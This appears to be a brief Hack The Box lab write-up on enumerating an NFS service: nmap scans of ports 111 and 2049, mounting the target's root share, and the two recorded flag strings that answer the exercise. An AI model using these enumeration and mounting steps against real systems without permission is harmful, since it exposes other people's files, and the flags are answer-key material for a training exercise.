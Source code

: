 Target IP: 
```
10.129.159.154
```
Q1: Enumerate the NFS service and submit the contents of the flag.txt in the "nfs" share as the answer.
Q2: Enumerate the NFS service and submit the contents of the flag.txt in the "nfsshare" share as the answer.

### Exercise 1
```sh
nmap -sV -T4 -p111,2049 10.129.159.154
```
![[Pasted image 20240516170440.png]]

```sh
nmap -sV --script nfs* -T4 -p111,2049 10.129.159.154
```
![[Pasted image 20240516170548.png]]
```sh
mkdir targetNfs
sudo mount -t nfs 10.129.159.154:/ ./targetNfs -o nolock
```

![[Pasted image 20240516171545.png]]
```
HTB{hjglmvtkjhlkfuhgi734zthrie7rjmdze}
```

![[Pasted image 20240516171700.png]]
```
HTB{8o7435zhtuih7fztdrzuhdhkfjcn7ghi4357ndcthzuc7rtfghu34}
```
